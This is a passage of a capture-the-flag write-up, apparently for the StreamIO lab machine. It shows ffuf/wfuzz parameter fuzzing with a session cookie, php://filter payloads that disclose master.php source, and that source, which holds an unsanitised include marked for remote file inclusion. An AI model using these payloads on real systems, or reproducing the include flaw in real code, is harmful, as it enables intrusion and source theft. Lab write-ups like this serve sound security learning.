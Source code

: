 ```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/api/objects.txt -u 'https://streamio.htb/admin/?FUZZ=' -b PHPSESSID=5b81mitco4j6hgiljr9euhqj1c -fs 1678

debug                   [Status: 200, Size: 1712, Words: 90, Lines: 50, Duration: 245ms]
movie                   [Status: 200, Size: 320235, Words: 15986, Lines: 10791, Duration: 256ms]
staff                   [Status: 200, Size: 12484, Words: 1784, Lines: 399, Duration: 244ms]
user                    [Status: 200, Size: 2073, Words: 146, Lines: 63, Duration: 244ms]
```

* https://wfuzz.readthedocs.io/en/latest/user/basicusage.html#fuzzing-cookies
* https://book.hacktricks.xyz/pentesting-web/web-tool-wfuzz

```bash
Fuzzing Custom headers
wfuzz -u 'https://streamio.htb/admin/?FUZZ=' -w /usr/share/seclists/Discovery/Web-Content/api/objects.txt -H "Cookie: PHPSESSID=5b81mitco4j6hgiljr9euhqj1c" --hh 1678

Fuzzing Cookies
wfuzz -u 'https://streamio.htb/admin/?FUZZ=' -w /usr/share/seclists/Discovery/Web-Content/api/objects.txt -b "PHPSESSID=5b81mitco4j6hgiljr9euhqj1c" --hh 1678
```

### Using the debug param
`https://streamio.htb/admin/?debug=index.php` -> this option is for developers only ---- ERROR ----
`https://streamio.htb/admin/?debug=master.php` working

### PHP filter
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#wrapper-phpfilter

* php://filter/convert.base64-encode|convert.base64-decode/resource=master.php
* php://filter/convert.base64-encode/resource=master.php

```bash
echo "onlyPGg<SNIP>9DQo/Pg==" | base64 -d > master.php <- Beautified
```

```php
<?php
if (isset($_GET["debug"])) {
    echo "this option is for developers only";
    if ($_GET["debug"] === "index.php") {
        die(" ---- ERROR ----");
    } else {
        include $_GET["debug"]; <- Use it to do RFI
    }
} elseif (isset($_GET["user"])) {
    require "user_inc.php";
} elseif (isset($_GET["staff"])) {
    require "staff_inc.php";
} elseif (isset($_GET["movie"])) {
    require "movie_inc.php";
}
?>
```
